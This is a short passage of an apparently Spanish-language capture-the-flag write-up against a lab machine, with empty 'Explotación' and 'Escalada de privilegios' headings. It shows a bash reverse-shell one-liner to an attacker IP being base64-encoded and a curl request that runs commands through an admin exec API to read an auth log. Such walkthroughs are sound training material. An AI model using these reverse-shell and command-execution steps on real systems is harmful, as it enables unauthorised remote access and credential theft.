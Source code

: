 ```r
❯ echo "bash -i >& /dev/tcp/10.10.16.14/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC80NDMgMD4mMQo=
```
*Lo convertimos a base64*

```json
❯ curl -X GET 'http://10.10.11.161/api/v1/admin/exec/cat%20auth.log' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXB..." | jq | sed 's/\\n/\n/g'
10/10/2024, 19:47:56 - Login Failure for Tr0ub4dor&3
```
# Explotación
*En esta fase vamos a ya tener un vector de ataque previamente enumerado y vamos a explotarlo.*



# Escalada de privilegios
*Esta fase va a consistir en pasar de ser un usuario no privilegiado a ser el administrador del sistema aprovechandonos de fallos en la seguridad internos del servidor.*

